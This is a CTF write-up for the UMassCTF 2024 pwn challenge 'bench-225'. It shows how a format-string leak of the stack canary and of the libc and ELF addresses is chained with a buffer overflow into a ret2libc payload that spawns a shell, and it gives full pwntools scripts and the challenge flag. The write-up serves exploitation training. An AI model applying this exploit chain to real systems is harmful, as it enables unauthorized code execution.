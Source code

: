 ```yaml
---
layout: post
title: UMassCTF 2024
author: 12th
categories: [Jeopardy]
tags: [ctf,pwn]
---
```


# pwn/bench-225

```
chall disc [add later]

```

In this challenge we are given a compiled 64bit binary.

running checksec shows the we have full protections:

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Running the binary we see it gives us 5 options, Add 10s, Add 25s Add 45s, Bench and Remove Plate.

I'll start with opening it up with Ghidra, In main I saw an extra option, option 6 for Motivational Quote. 

The "motivation" function has two vulnerabilities.

![](https://i.imgur.com/B7QO6rb.png)


The first being fgets on line 17 is reading in 1000 bytes into local_18 which is set as only 8. This gives us an overflow.

The 2nd is line 20 when the program uses printf without any format specifer, giving us a format strings. This will let us leak important data such as the stack canary, libc and elf addresses. We can use all of those to ret2libc and get a shell.

Lets first get into this function.

```c    
if ((stam < 0x32) && (DAT_00107092 <= g_Barbell)) {
      puts("6. Motivational Quote");
    }
```

So for this option to appear we need low stamina, and the "barbell" to be above another value.

To achieve this I would just get the lbs above 200, and drain my stamina.

![](https://i.imgur.com/PVvPeUy.png)


As expected, i can use the format strings to leak data here. 

For this part I like to use a fuzz script to give me a bunch of leaks and i'll go and check the useful ones myself after.

```python
from pwn import *

for i in range(1,20):
        io = process('./bench-225',level='error')
        for x in range(5):
            io.sendline(b'3')

        for x in range(6):
            io.sendline(b'4')
            
        payload = f"%{i}$p"
        io.sendline(b'6')
        io.sendlineafter(b'quote:',payload)
        io.recvuntil(b'Quote:')
        print(io.recvline(),i)
        io.close()
```

This will print the leak, and the offset that 

```
❯ python3 fuzz.py
b' "0x7fff4364ba80\n' 1
b' "(nil)\n' 2
b' "0x7f8f1f314887\n' 3
b' "0x8\n' 4
b' "(nil)\n' 5
b' "(nil)\n' 6
b' "0xa016da080\n' 7
b' "0xa70243825\n' 8
b' "0xa93ade3f14484a00\n' 9
b' "0x7ffea69d6f50\n' 10
b' "0x55f76fde06a1\n' 11
b' "0x600000000\n' 12
b' "0x15549807e3813f00\n' 13
b' "0x1\n' 14
b' "0x7f111b829d90\n' 15
b' "(nil)\n' 16
b' "0x55a8003b935c\n' 17
b' "0x100000000\n' 18
b' "0x7fff6adc7928\n' 19
```

The ones that look intresting are, 9 (canary) 13(also could be canary), 15 and 11


Using GDB ill leak those addresses and check what they are. Using the Canary command inside GDB I can confirm:
13 is the canary 
11 is main+837
15 is _libc_start_call_main+128


Lets script this part together. I start by getting the option 6 to show up.

```python=
for x in range(5):
    io.sendline(b'3')

for x in range(6):
    io.sendline(b'4')
```


get the 3 leaks:
```python
payload = b"%13$p"
io.sendline(b'6')
io.sendlineafter(b'quote:',payload)
io.recvuntil(b'Quote:')
canary = int(io.recvline().strip()[1:].decode(),16)
log.info(hex(canary))

payload = b"%11$p"
io.sendline(b'6')
io.sendlineafter(b'quote:',payload)
io.recvuntil(b'Quote:')
main_leak = int(io.recvline().strip()[1:].decode(),16)
log.info(hex(main_leak))

payload = b"%15$p"
io.sendline(b'6')
io.sendlineafter(b'quote:',payload)
io.recvuntil(b'Quote:')
libc_leak = int(io.recvline().strip()[1:].decode(),16)
log.info(hex(libc_leak))
```

Calculate the base addresses:


```python
main_base = main_leak - elf.symbols.main - 837
elf.address = main_base
log.info(hex(main_base))

libc_base = libc_leak - 0x29d90
log.info(hex(libc_base))
libc.address = libc_base
```

and now I have all I need for a ret2libc:

We have a stack canary and the buffer was only 8 bytes, So we start with 8 bytes of "junk" followed by the stack canary, I use 8 \x00 to padding and the rest is a normal "ret2libc" loading binsh into pop rdi so we can run system(/bin/sh) on the remote server.


```python
payload = b'A'*8
payload += p64(canary)
payload += b'\x00' *8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(libc.symbols.system)


io.sendline(b'6')
io.sendline(payload)

io.interactive()
```

Unlike most CTFs, the flag was not in the directory the shell spawned me into, 

So I ran `find / 2>/dev/null | grep flag.txt`

and I see the flag is in /home/tmp_bench_225/flag.txt

```
$ cat /home/tmp_bench_225/flag.txt
UMASS{wh0$e_g0nn4_c4rry_t3h_r0pz_&nd_d4_ch41nz?}
```


